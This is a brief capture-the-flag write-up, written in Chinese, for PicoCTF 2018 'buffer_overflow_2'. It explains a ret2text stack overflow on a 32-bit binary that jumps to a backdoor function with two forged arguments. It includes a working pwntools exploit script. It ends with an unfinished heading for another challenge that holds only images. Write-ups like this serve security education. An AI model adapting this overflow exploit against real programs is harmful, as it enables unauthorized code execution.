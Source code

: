 - `ret2text`
- `32`位程序函数参数劫持

1. `vuln`函数中存在溢出
2. 存在后门函数
3. 构造`payload`跳转到后门函数得到`shell`

这里要注意,跳转到后门函数的同时要传入两个参数`a1 & a2`,缺失参数会导致`eof`错误

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_2')
padding = b'A'*(0x6c+4)
payload = padding+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
io.sendlineafter(b'Please enter your string:',payload)
io.interactive()
```

#wustctf2020_getshell_2

![image-20240106214446580](../assets/img/old_imgs/image-20240106214446580.png)

![image-20240106214457268](../assets/img/old_imgs/image-20240106214457268.png)

![image-20240106214720283](../assets/img/old_imgs/image-20240106214720283.png)
